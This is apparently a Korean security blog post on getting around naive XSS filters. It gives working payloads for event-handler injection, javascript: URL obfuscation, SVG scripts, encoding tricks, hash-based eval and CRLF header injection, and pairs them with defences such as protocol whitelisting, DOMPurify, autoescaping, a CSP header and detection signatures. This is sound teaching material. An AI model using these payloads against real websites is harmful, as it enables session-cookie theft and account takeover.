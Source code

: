 ```yaml
---
title: "[Infosec] XSS 필터링 우회 : 개념·우회 패턴·실전 대응"
date: 2025-09-16 12:40:00 +0900
categories: [보안, Web]
tags: [웹해킹, XSS, FilteringBypass, Encoding, URL, SVG, TemplateInjection, CSP]
description: "XSS 필터링을 우회해보자"
author: "송지민"
toc: true
---
```

> ⚠️ 학습/방어 목적 문서입니다. 테스트는 반드시 본인 환경(로컬/CTF)에서만 진행하세요.

---

## 요약
이 문서는 **잘못된(deny/naive) 필터링**에 대한 우회 기법을 모아 정리한 보강판입니다.  
추가된 내용: **SVG XSS, React/Angular 템플릿 주입(간단히), CSP 실전 설정 예시, Burp/탐지 체크리스트**를 포함합니다.

핵심: **검증 → 정규화 → 컨텍스트별 인코딩** 이 가장 안전하고 실무 적용 우선순위입니다.

---

## 1. 이벤트 핸들러(on*) — 요점 및 우회 기법
- 이벤트 핸들러 속성(onload/onerror/onfocus 등)은 HTML 속성 컨텍스트에서 그대로 실행될 수 있음.
- 방어 실패 사례: 단순히 `<script>` 태그와 `onerror` 문자열을 금지하는 필터.
- 우회 포인트:
  - 속성 이름을 분할/재조합 또는 중복 삽입으로 복원 (`oneonerrorrror` → `onerror` 재조합)
  - `autofocus`, `tabindex` 등으로 자동 트리거
  - `iframe srcdoc`/`innerHTML`을 통해 이벤트 핸들러 주입

예시:
```html
<input id="x" autofocus onfocus="alert(document.cookie)">
<iframe srcdoc="&lt;img src=1 onerror=alert(document.domain)&gt;"></iframe>
```

---

## 2. 문자열 치환/반복 치환의 한계
- 반복적으로 `replace()` 하더라도 예상치 못한 중첩/중간 문자열을 이용해 키워드를 복원 가능.
- 결론: **키워드 제거는 디펜스 아키텍처로 부적합**.  
  항상 **출력 컨텍스트**에 맞춘 이스케이프가 정답.

---

## 3. 활성 하이퍼링크(`javascript:`) 정규화 우회
- 브라우저는 다양한 escape/encoding을 정규화함.
- 방어: 정규화(`new URL(x, base)`) 후 `protocol` 비교. 그러나 오래된 브라우저/기기 차이 고려 필요.
- 권장: 프로토콜 화이트리스트(`http(s)`만 허용).

우회 예시:
```html
<a href="\1\4jAVasC\triPT:alert(1)">x</a>
```

방어 코드(예시):
```js
try {
  const u = new URL(userHref, document.baseURI);
  if (u.protocol !== 'http:' && u.protocol !== 'https:') throw 'bad';
} catch(e){ /* reject */ }
```

---

## 4. 태그·속성 기반 필터의 우회 (대/소문자, 줄바꿈, 대체 태그)
- HTML은 대소문자 구분 없음, 속성은 공백/줄바꿈으로 분리 가능.
- `on*` 검사에서 줄바꿈/탭 `\n`으로 우회 가능.
- 대체 태그(`video`, `source`, `svg`, `math`, `iframe`)로 우회 가능.

예시 우회:
```html
<img src="" 
onerror="alert(1)">
<video><source onerror="alert(1)"/></video>
```

---

## 5. SVG XSS
- `<svg>`과 그 내부 태그(`<foreignObject>`, `<script>`, `<image onerror=...>`)는 자주 간과됨.
- SVG은 XML 네임스페이스와 폰트/외부 리소스 로딩을 허용하므로 공격면이 큼.

예시:
```html
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert(document.domain)</script>
</svg>
```
또는:
```html
<svg><image href="invalid" onerror="alert(1)"></image></svg>
```

방어 팁:
- SVG를 사용자 업로드로 허용할 때는 **완전 샌드박스 처리(렌더되지 않게, 또는 스크립트 제거)** 하거나 **content-disposition: attachment**로 강제 다운로드.
- SVG 파서로 허용 태그/속성만 필터링. (화이트리스트 방식)

---

## 6. React / Angular / Template Injection(간단 요약)
- **React**: JSX `dangerouslySetInnerHTML`를 쓰지 않으면 보통 안전. 그러나 서버에서 렌더된 HTML을 React가 innerHTML로 넣거나, 서버 템플릿에서 치환 없이 출력하면 문제.
- **Angular**: 바인딩 컨텍스트(`[]`, `()`)와 `innerHTML` 사용 주의. Angular는 자체 sanitizer를 제공하지만, `bypassSecurityTrustHtml`은 위험.
- **서버 템플릿 주입**: 서버 템플릿 엔진(예: ejs, nunjucks, jinja2)에서 autoescape를 끈 경우 위험.

권장:
- 프레임워크 기본 escaping 사용. 서버에서 렌더할 때도 템플릿의 autoescape 켜기.
- 사용자 HTML을 꼭 허용해야 하면, **DOMPurify** 같은 검증된 라이브러리로 정화.

---

## 7. JS 언어 특성 기반 우회 (강력)
- Unicode escape, `String.fromCharCode`, computed member access (`document['coo'+'kie']`), 숫자→36진수 등.
- 극단적: **JSFuck** 같은 방식으로 키워드 없이도 동작한다 (길지만 우회 가능).

예시:
```js
window['al'+'ert'](document['coo'+'kie']);
```
또는:
```js
String.fromCharCode(97,108,101,114,116) // "alert"
```

---

## 8. 디코딩 전/후 검증(더블 디코딩) 문제
- 원칙: **입력은 정규화(디코딩) → 검증 → 저장**의 순으로 한 번만 처리.
- 실수 사례: 검증은 인코딩된 상태에서, 실제 사용은 디코딩 상태에서 이루어짐 → 우회 가능.

예시 공격:
```
/search?query=%253Cscript%253Ealert(1)%253C/script%253E
```

방어: 서버에서 수신한 모든 URL 인자에 대해 `decodeURIComponent` 동일 횟수로 적용한 뒤 검사.

---

## 9. 길이 제한/분할 저장 우회
- 제한된 입력 길이를 회피하려면 페이로드를 여러 공간(해시/쿠키/localStorage/외부 스크립트)으로 분산.
- 常用 기법: `location.hash` + `eval(location.hash.slice(1))` (eval은 최대한 금지)

예시:
```
https://victim/?q=<img onerror="eval(location.hash.slice(1))">#alert(document.cookie)
```

---

## 10. CSP(Content Security Policy) 실전 예시 (권장)
- CSP은 XSS 피해 규모를 줄이는 강력한 수단. 예시 헤더:
```
Content-Security-Policy: default-src 'none'; script-src 'self' 'sha256-<HASH>'; object-src 'none'; base-uri 'self'; frame-ancestors 'none';
```
- nonce 기반 또는 해시 기반 정책 권장 (`'nonce-...'` 또는 `'sha256-...'`)  
- 주의: `unsafe-inline` 과 `unsafe-eval` 은 피해 감소 효과를 없애므로 사용 금지.

---

## 11. 탐지·테스트 체크리스트 (Burp/자동화)
- 시그니처: `onerror=`, `onload=`, `<script`, `<svg`, `srcdoc=`, `javascript:`
- 정규화 후 검사: `new URL(payload, base)`를 사용해 `protocol`/`host` 검증
- 자동투입 페이로드: 다양한 인코딩(`%25`, `%09`, `%0A`, `%0D`, `\x`, `\u`)과 대소문자 변형
- Burp Intruder Payloads: JSFuck snippets, SVG payloads, event-handler snippets, template injection markers (`{{ }}`, `<% %>`)
- 탐지 로그: 입력 저장시의 원본+정규화된 값 모두 로깅

---

## 12. 제어문자 / 퍼센트-인코딩 (`%09`, `%0A`, `%08` 등)
### 왜 중요한가?
퍼센트로 인코딩된 제어문자(예: `%09` 탭, `%0A` LF, `%0D` CR, `%00` NUL, `%08` BS 등)는 디코딩·정규화 과정에서 제거되거나 공백으로 바뀌어 필터를 우회할 수 있습니다. 특히 URL 스킴, 속성 분리, HTTP 헤더 조작(CRLF)에서 큰 위협.

### 공격 예시
- `ja%09vascript:alert(1)` → 일부 정규화에서 `javascript:`로 복구
- 속성 분리: `<img src="x"%0Aonerror=alert(1)>`
- 헤더 주입: `Set-Cookie: x=1%0D%0ASet-Cookie: hacked=1` (잘못 처리 시)
